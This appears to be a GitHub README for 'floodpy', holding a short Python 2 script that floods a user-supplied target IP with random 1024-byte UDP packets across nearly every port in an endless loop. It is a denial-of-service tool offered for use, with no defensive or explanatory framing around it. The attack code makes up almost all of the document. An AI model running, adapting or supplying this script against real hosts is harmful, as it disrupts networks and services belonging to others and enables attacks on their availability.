 # floodpy
Fllodpy

    #!/usr/bin/env python
    
    # Flood network host/ports with packets
    
    import socket
    import random
    
    sock = socket.socket(socket.AF_INET, socket.SOCK_DGRAM)
    bytes = random._urandom(1024)
    ip = raw_input('Target IP: ')
    sent = 0
    
    while 1:
    
    	for port in range(1, 65535):
    		try:
    			sock.sendto(bytes,(ip,port))
    			print "Sent %s packets to %s at port %s." % (sent, ip, port)
    			sent = sent + 1
    		except socket.error:
    			print "Ignored %s " % port
